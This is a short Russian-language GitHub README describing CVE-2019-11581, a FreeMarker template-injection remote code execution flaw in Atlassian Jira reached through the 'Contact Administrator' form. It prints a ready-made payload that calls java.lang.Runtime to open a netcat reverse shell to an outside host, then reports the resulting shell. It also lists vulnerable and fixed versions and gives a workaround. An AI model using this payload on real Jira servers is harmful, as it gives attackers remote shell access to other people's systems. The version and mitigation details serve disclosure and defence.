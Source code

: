 # RCE-in-Jira
Remote code execution in Atlassian Jira(CVE-2019–11581) through template engine FreeMaker.

В апреле месяце была обнаружена RCE в продукте Atlassian Confluence, а если быть точнее в плагине, который почти всегда там используется. И вот через 4 месяца еще одна RCE, но теперь уже в другом продукте - Jira.

# PoC?
Все это дело реализовывается через форму "Связаться с админом". По умолчанию он выключен, но у многих он включен.
Jira использует компилирующий обработчик шаблонов - [FreeMaker](https://ru.wikipedia.org/wiki/FreeMarker), написанный на Java.
Зная это, получается сгенерировать несложный Payload.

```$i18n.getClass().forName('java.lang.Runtime').getMethod('getRuntime',null).invoke(null,null).exec('nc -e /bin/bash r0hack.xyz 80').waitFor()```

![Image](https://downloader.disk.yandex.ru/preview/8aa9e1a7214395199fa69ba66aed75beb64bf6ba00d0b72d690a9bd8018afb8a/5d2e2aea/4FcDW08Vat-NVoVf6aWDVnDD_gIthqJIYIA_7RnszcLyB_bZTnYKFluDNTr71ayqNZ0SsUQajOnt62LXVqNhuw%3D%3D?uid=0&filename=rceinjira1.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Затем идем к нам на сервер, где слушаем порт и видим, что есть бэкконект:

![Image](https://downloader.disk.yandex.ru/preview/8d6e8bae7389cf4566b64988bbaaef985c6465133571d05499258b931ebfbb33/5d2e2961/b0nHrU1uF4yBjMOSELFi-ihQsFlZA_Hm_FzlHi0zn0-fI8WEmKr8MSC9q54NCRe5jZ15c8XYUpkIlGu7dtrEWA%3D%3D?uid=0&filename=rceinjira2.png&disposition=inline&hash=&limit=0&content_type=image%2Fpng&owner_uid=0&tknv=v2&size=2048x2048)

Вуаля, у нас есть шелл. Чаще всего, это пользователь Jira, но есть также моменты, у кого запущен и от root.
Подобный RCE, еще был в 2017 году в Spring Boot и снова Java и снова шаблонизатор FreeMaker, [подробнее!](http://deadpool.sh/2017/RCE-Springs/)

![Image](http://deadpool.sh/images/rce_new.jpg)


# How To Fix?

Обновить!

Уязвимые версии:
* 4.4.x
* 5.x.x
* 6.x.x
* 7.0.x
* 7.1.x
* 7.2.x
* 7.3.x
* 7.4.x
* 7.5.x
* 7.6.x before 7.6.14 (the fixed version for 7.6.x)
* 7.7.x
* 7.8.x
* 7.9.x
* 7.10.x
* 7.11.x
* 7.12.x
* 7.13.x before 7.13.5 (the fixed version for 7.13.x)
* 8.0.x before 8.0.3 (the fixed version for 8.0.x)
* 8.1.x before 8.1.2 (the fixed version for 8.1.x)
* 8.2.x before 8.2.3 (the fixed version for 8.2.x)

 
Исправлено в версиях:
* 7.6.14
* 7.13.5
* 8.0.3
* 8.1.2
* 8.2.3

Если нет возможности срочно обновится, то временным решением будет:
* Отключить форму отправки сообщения Админам
* Заблокировать доступ к эндпоинту ```/secure/admin/SendBulkMail!default.jspa```

```Всем удачи!```
